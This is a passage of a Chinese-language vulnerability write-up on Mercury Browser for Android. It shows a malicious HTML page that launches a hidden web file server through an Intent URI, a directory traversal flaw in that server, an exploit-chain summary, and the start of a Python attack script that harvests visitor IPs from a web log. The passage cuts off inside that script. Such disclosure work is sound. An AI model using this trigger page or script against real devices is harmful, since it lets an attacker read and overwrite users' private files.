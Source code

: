 ```
<html>
    <head>
        <meta charset="utf-8" />
        <title>Trigger parseUri()</title>
    </head>
    <body>
        <script>
            location.href="intent:#Intent;SEL;component=com.ilegendsoft.mercury/.external.wfm.ui.WFMActivity2;action=android.intent.action.VIEW;end";
        </script>
    </body>
</html>

```

然后用水星浏览器访问该恶意网页，出现如下界面

![image](http://drops.javaweb.org/uploads/images/e14c9ff98966d1888c491a2d11fdf30f0009b223.jpg)

此时PC端已经能够访问webserver，并具有对手机中sdcard文件上传、下载和删除功能。

![image](http://drops.javaweb.org/uploads/images/5b177effbefbbc6fc00575a06d205ba59a879266.jpg)

4. 目录穿越漏洞
---------

默认情况下只能下载访问sdcard目录，但进一步的漏洞挖掘发现WFMActivity2打开的WebServer还具有目录穿越漏洞，可以通过dodownload和doupload命令以访问../../[程序私有目录] 的形式下载或上传私有目录的文件。

根据HTTPDownHandler中的处理代码，

![image](http://drops.javaweb.org/uploads/images/cc8aeb702db29d04876305a151464eb509d78ee5.jpg)

需要正确设置HTTP请求中的Referer才能进入成功的下载处理分支。

![image](http://drops.javaweb.org/uploads/images/91ea94ed8547316447277d34b0fa80ca5e28f638.jpg)

对程序配置文件私有目录打包下载![image](http://drops.javaweb.org/uploads/images/800f236cd2b655edf2e81822aadbba38046e7aca.jpg)使用doupload命令类似，可以实现上传文件到程序私有目录。

#### 5. 漏洞利用总结

至此，一系列漏洞利用组合可归纳如下：

(1) 通过恶意网页的Intent URI Scheme启动WFMActivity2

(2) 记录使用水星浏览器目标用户的IP地址

(3) 轮询WFMActivity2是否被启动

(4) 利用目录穿越漏洞下载水星浏览器的私有目录文件

附攻击脚本（使用lighttpd）

```
import os,re,requests

def poll():

    keyword = 'evil.html'
    while True:
        with open("/usr/local/var/log/lighttpd/access.log", 'r') as f:
            print 'Polling...\n'
            for line in f.readlines():
                if re.search(keyword, line):
                    target = line.split()[0]
                    headers = {'Referer': 'http://%s:8888/'%target}
                    url = 'http://%s:8888/dodownload'%target
```